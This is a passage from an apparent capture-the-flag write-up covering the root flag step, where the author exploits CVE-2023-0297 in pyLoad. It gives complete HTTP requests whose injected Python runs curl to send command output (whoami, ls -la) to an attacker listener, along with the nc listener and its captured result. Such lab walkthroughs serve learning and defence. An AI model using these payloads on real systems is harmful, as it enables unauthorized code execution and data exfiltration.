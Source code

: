 ### Root Flag

After searching for `pyload exploit` in google, I found this CVE - [CVE-2023-0297](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad), which is a pre-auth RCE vulnerability existing in versions earlier than `0.5.0b3.dev31`.

To test the vulnerability, I opened burpsuite and used the following payload with `nc -lvp 9999` running in another terminal:

Request:
```
POST /flash/addcrypted2 HTTP/1.1
Host: localhost:9666
User-Agent: ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 134
Origin: http://localhost:9666
Connection: close
Referer: http://localhost:9666/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

jk=pyimport%20os;os.system("curl+http%3a//10.10.16.85%3a9999/$(whoami)");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

Response in `nc -lvp 9999`:
```
GET /root HTTP/1.1
Host: 10.10.16.85:9999
User-Agent: curl/7.68.0
Accept: */*
```

Success! We get an echo back from the `root` process. I used the following technique to extract information, and finally the `root` flag from the server:

```
POST /flash/addcrypted2 HTTP/1.1
Host: localhost:9666
User-Agent: ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Origin: http://localhost:9666
Connection: close
Referer: http://localhost:9666/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

jk=pyimport%20os;os.system("curl+-d+\"$(ls+-la)\"+http%3a//10.10.16.85%3a9999/");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

